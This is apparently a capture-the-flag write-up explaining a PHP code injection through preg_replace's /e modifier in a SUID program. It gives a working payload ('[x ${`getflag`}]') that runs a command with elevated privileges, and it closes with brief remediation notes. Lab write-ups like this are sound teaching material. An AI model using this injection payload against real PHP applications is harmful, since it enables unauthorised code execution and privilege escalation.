

# Level06 - PHP Code Injection via preg_replace /e Modifier

## Description

While analyzing the home directory, I found a SUID binary `level06` along with a PHP script `level06.php` that it executes.
Inspecting the PHP code revealed the following:

```php
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

The script reads content from a file and processes it with `preg_replace()`.
The problem is the `/e` option: it makes PHP execute the result as code.
This means that if we control the input, we can run commands.

## Exploitation

I created a file:

```bash
echo '[x ${`getflag`}]' > /tmp/test
```

Then executed the binary:

```bash
./level06 /tmp/test
```
The payload is interpreted as PHP code and executes `getflag` with `flag06` privileges.

## Remediation
- Never execute user input as code
- Validate and sanitize all inputs

## Proof

This vulnerability demonstrates that executing user-controlled content as code can lead to full privilege escalation.


